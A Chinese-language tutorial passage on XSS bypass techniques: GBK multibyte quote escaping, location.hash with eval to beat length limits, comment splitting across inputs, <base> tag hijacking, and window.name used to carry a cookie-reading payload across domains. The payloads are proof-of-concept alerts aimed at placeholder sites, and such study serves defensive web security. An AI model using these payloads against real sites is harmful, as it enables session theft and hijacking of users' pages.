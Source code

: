 ### 利用字符编码
百度搜索曾经出现过一个这样的XSS漏洞。一个`<script>`标签中输出了一个变量，其中转义了双引号
```js
var redirectUrl = "\";alert(/XSS/);";
```
由于变量处于双引号之类，系统转义了双引号导致变量无法`escape`
但是由于返回的页面是`GBK/GB2312`编码的,因此`%c1\`这两个字符组合在一起后，就会成为一个Unicode字符。在FireFox下会认为这是一个字符，所以构造
```
%c1";alert(/XSS/);
```
这两个字节`%c1\`组成了一个新的Unicode字符，从而绕过了系统安全检查，成功实施了XSS攻击

### 绕过长度限制
很多时候，产生XSS的地方会有变量长度的限制
```js
<input type="text" value="$val" />
```
现在如果攻击者构造这样的XSS
```
$var的值  "><script>alert(/XSS/)</script>
```
考虑到输入长度的限制，一个最常用的藏代码的地方就是`location.hash`。而且根据HTTP协议，`location.hash`的内容不会在HTTP包中发送，所以服务端的web日志中不会记录location.hash的内容，从而更好的隐藏了黑客真是的意图
```
$var输出为     " onclick="eval(location.hash.substr(1))
```
此时构造XSS的URL为
```
http://www.a.com/test.html#alert(1)
```
如果地址栏的长度不够用，还可以加载远程的JS文件，来执行更多代码
利用注释绕过长度限制
```
<input type="text" id="1" value="" />
xxxxxxxxxx
<input type="text" id="2" value="" />
```
第一个input中输入`"><!--`,第二个input中输入`--><script>alert(/XSS/)</script>`
最终的效果是
```
<input type="text" id="1" value=""><!--" />
xxxx
<input type="text" id="2" value="--><script>alert(/XSS/)</script>" />
```

### 使用<base>标签
`<base>`标签并不常用，他的作用是定义页面上所有的相对路径标签的`hosting`地址
比如打开一张不存在的图片
```html
<img src="/int1/en_all/images/a.png" />
```
需要特别注意的是，在有的技术文档中，提到<base>标签只能用于head标签之内，其实这是不对的，<base>可以出现在页面的任何地方，并作用于该标签之后的所有标签
攻击者如果在页面中插入了<base>标签，就可以在远程服务器上伪造图片链接脚本，劫持当前页面中的所有使用相对路径的标签

### window.name
对当前的window.name对象是一个很神奇的东西。对当前窗口的`window.name`对象赋值，没有特殊的字符显示。因为window对象是浏览器的窗体，并非`document`对象，因此很多时候window对象不受同源策略的限制
```js
window.name = 'test';
alert(document.domain + ' ' + window.name);
window.location = 'http://www.b.com/test1.html';
```
这段代码显示当前域和window.name的值，最后将页面调到`http://www.b.com/test1.html`
`www.c.com/test1.html`的代码为
```js
alert(document.domain + ' ' + window.name);
```
这个过程就可以实现跨域传递`test`
如果跨域劫持cookie
```js
window.name = "alert(document.cookie)";
location.href = 'http://www.xssedsite.com/xssed.php';
```
在同一窗口打开XSS站点后，只需要通过XSS执行一下代码即可
```js
eval(window.name);
```